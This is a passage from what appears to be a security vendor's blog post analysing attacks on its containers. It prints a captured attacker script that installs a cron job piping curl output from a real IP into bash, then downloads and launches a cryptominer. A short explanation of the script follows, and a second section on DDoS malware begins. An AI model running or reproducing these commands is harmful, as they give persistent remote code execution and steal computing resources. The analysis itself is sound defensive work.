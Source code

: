     echo "* * * * * curl -s http://104.225.147.196:8220/logo3.jpg | bash -s" >> /tmp/cron || true && \
    crontab /tmp/cron || true && \
    rm -rf /tmp/cron || true && \
    curl -o /var/tmp/config.json http://104.225.147.196:8220/config_1.json
    curl -o /var/tmp/jaav http://104.225.147.196:8220/gcc
    chmod 777 /var/tmp/jaav
    cd /var/tmp
    proc=`grep -c ^processor /proc/cpuinfo`
    cores=$(($proc+1))
    num=$(($cores*3))
    /sbin/sysctl -w vm.nr_hugepages=`$num`
    nohup ./jaav -c config.json -t `echo $cores` >/dev/null &
    fi
    ps -fe|grep jaav |grep -v grep
    if [ $? -eq 0 ]
    then
    pwd
    else
    curl -o /var/tmp/config.json http://104.225.147.196:8220/c1.json
    curl -o /var/tmp/jaav http://104.225.147.196:8220/minerd
    chmod 777 /var/tmp/jaav
    cd /var/tmp
    proc=`grep -c ^processor /proc/cpuinfo`
    cores=$(($proc+1))
    num=$(($cores*3))
    /sbin/sysctl -w vm.nr_hugepages=`$num`
    nohup ./jaav -c config.json -t `echo $cores` >/dev/null &
    fi
    echo "runing....."

It looks like the script does the following:

*   Look for competing bitcoin mining programs like <a href="https://en.bitcoin.it/wiki/CryptoNight" target="_blank" rel="noopener">cryptonight</a>, <a href="https://en.bitcoin.it/wiki/Stratum_mining_protocol" target="_blank" rel="noopener">stratum</a>, etc. and kills them.
*   Add the crontab entry again to `/tmp/cron`, just to be sure.
*   Download and install a bitcoin mining program to `./jaav` and create a configuration file that uses all of the host machine's available cores.
*   Start the bitcoin mining program in the background.

It's not surprising that Bitcoin mining is the thing the attacker tried to run, given that the price of bitcoin is currently >= $13k (this week, anyway), and that the dominant cost in mining bitcoins is cpu processing power. It helps your bottom line if the cpu costs are stolen and therefore zero!

## Second Attack: Linux.BackDoor.Gates DDOS Malware {#secondattacklinuxbackdoorgatesddosmalware}

About a week later we noticed a second attack. We noticed several attempts to write below the top-level `/` filesystem as well as `/usr/bin` within one of the containers we had running (namely, our <a href="https://hub.docker.com/r/sysdig/falco-event-generator/" target="_blank" rel="noopener">synthetic event generator</a> that we use for testing).

We have several policies that cover this activity:


 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_crontab_policy_event.png
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_overview.png
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_create_container.png
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_containers.png
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_container_processes.png
 [6]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_events.png
 [7]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/sysdig_inspect_write_contents.png
 [8]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/secure_events.png
 [9]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_secure_overview.png
 [10]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_wget_mm.png
 [11]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_events_detail.png
 [12]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_inspect_overview.png
 [13]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_1.png
 [14]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_2.png
 [15]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_spy_users_3.png
 [16]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_fs.png
 [17]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_periodic_streams.png
 [18]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_connections.png
 [19]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_dns.png
 [20]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2017/12/attack_2_single_conn.png